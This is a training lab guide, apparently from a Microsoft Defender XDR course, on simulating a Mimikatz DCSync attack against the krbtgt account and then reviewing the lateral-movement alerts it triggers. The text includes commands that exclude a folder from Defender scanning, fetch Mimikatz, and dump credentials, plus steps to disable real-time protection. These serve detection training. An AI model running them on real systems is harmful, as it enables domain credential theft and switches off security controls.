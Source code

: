 # Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](./media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](./media/xdr28upd.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](./media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](./media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](./media/attack1.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](./media/attack13.png)

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16**again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      ![image](./media/attack1n1.png)

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      ![image](./media/attack1n2.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   ![](./media/E1T3S3upd2.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
